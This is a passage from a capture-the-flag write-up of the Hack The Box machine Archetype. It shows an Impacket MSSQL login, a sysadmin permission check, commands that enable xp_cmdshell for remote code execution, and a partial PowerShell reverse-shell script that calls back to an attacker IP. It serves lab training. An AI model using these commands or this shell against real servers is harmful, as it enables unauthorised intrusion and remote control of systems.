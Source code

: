   
  
## Foothold
### SQL
Using the credentials I found in the config earlier, I can use **[Impacket's](https://github.com/SecureAuthCorp/impacket)** **mssqlclient.py** to access SQL on the target.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
~~~
### Permission Recon
Using SQL, I was able to determine if our account had sysadmin permissions.
~~~Bash
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
              

-----------   

          1 
~~~
The respone value of **1** means we have sysadmin permission, which is great for us.
### RCE xp_cmdshell
By inputting the following commands, we are able to gain remote code execution on the target and view which user we are logged in as afterwards.
~~~Bash
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
~~~
The **whoami** command responsed with **archetype\sql_svc** which is the expected response in this case - this confirms our RCE works.

### PowerShell Reverse Shell
Using **PowerShell** we can mock up a quick file that'll get us connected with a **netcat** listener. I named my file [**shell.ps1**](https://github.com/jessisec/ctf-writeups/blob/main/HackTheBox/Archetype/shell.ps1). With the file created, I just needed to transfer it to our target.  
**Shell.ps1**  
~~~Powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.30",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
~~~